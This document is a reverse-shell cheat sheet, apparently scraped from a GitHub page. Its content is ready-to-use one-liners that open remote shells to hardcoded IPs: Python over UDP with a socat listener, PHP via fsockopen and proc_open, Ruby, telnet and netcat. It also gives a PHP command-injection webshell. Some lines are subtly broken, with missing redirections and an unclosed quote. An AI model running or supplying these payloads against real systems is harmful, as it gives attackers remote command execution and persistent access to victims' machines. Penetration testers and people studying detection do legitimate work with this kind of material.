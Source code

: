 #### Using Socat UDP Listener

```python
python -c 'import socket,pty,os;lhost = "10.10.15.80"; lport = 100; s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM); s.connect((lhost, lport)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); os.putenv("HISTFILE",'/dev/null'); pty.spawn("/bin/bash"); s.close();

#UDP Socat Listener
socat file:`tty`,echo=0,raw  udp-listen:100
```

### **PHP Reverse Shell**

```php
php -r '$sock=fsockopen("192.168.1.2",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```php
php -r '$sock=fsockopen("192.168.1.2",4444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

### PHP command injection webshell:

```php
<?php system($_GET['variable_name']); ?>
```

### **Ruby Reverse Shell**

```ruby
ruby -rsocket -e'f=TCPSocket.open("192.168.1.2",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### **Telnet Reverse Shells**

```bash
mknod backpipe p && telnet $ip $port 0<backpipe | /bin/bash 1>backpipe
```

```bash
telnet $ip $port1 | /bin/bash | telnet $ip $port2
```

```bash
rm -f /tmp/p; mknod /tmp/p p && telnet 192.168.1.2 4444 0/tmp/p
```

### **Netcat Reverse Shells**

```bash
nc -e /bin/sh 192.168.1.2 80
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc 192.168.1.2 4444 0/tmp/p
```
